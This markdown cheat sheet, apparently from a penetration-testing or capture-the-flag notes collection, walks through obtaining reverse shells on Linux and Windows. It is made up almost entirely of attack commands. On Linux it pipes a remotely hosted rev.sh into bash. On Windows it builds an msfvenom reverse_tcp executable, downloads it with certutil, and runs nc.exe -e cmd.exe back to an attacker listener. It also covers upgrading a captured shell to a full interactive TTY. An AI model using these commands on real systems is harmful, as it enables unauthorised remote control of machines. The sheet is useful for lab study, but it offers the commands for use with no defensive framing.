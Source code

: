 ## Linux
run server and expose rev.sh as file:
```
python3 -m http.server 80
```

on local machine call:
```
nc -lnvp 1337
```

on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

###  upgrade shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- then to make if fully interactive:
- We press `CTRL^Z` to suspend the shell momentaneously and execute the command below
```bash
stty raw -echo; fg
```
We won't see any output, but we can type reset and specify xterm as the terminal type
```bash
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
Command above will return us to the remote machine's shell. Now we need to make sure that the following variables are set as following:
```bash
export TERM=xterm
export SHELL=bash
```
change size:
```bash
# on your system
stty size
# on the reverse shell
stty rows x columns y
```
see also: https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3

## Windows

### with reverse shell

get reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=443 -f exe -o reverse.exe
```

start python server
```
python3 -m http.server 80
```

download reverse shell on target machine
```bash
certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:80/reverse.exe C:\Windows\Temp\reverse.exe
```

listen on attacker machine
```bash
nc -lnvp 443
```

execute reverse shell
```bash
C:\Windows\Temp\reverse.exe
```


### with nc

get nc.exe:
```bash
sudo apt install windows-binaries
```

run server and expose rev.sh as file:
```bash
python3 -m http.server 80
```

on local machine call:
```bash
nc -lnvp 1337
```

on remote machine in a directory where allowed to write:
```bash
wget http://10.10.14.9/nc.exe -outfile nc64.exe
.\nc.exe -e cmd.exe 10.10.14.9 1337
```

# Known issues

- on windows many ports are blocked by the firewall but ports like 443 should work